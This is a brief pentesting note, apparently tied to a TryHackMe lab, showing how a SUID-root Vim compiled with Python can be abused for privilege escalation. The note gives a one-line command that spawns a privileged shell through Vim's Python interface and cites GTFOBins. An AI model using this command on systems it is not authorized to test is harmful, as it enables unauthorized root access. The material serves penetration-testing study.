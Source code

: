 # Exploiting ViM

If ViM is SUID root *and* is compiled with Python support, it can be used for privilege escalation.

```bash
vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

NOTE: Use `:py` instead if only Python 2 is available.

## References

* [Basic Pentesting](tryhackme-basic-pentesting.md)
* [GTFOBins: vim](https://gtfobins.github.io/gtfobins/vim/)

- - - -

👤 Nathan Acks
📅 November 4, 2021
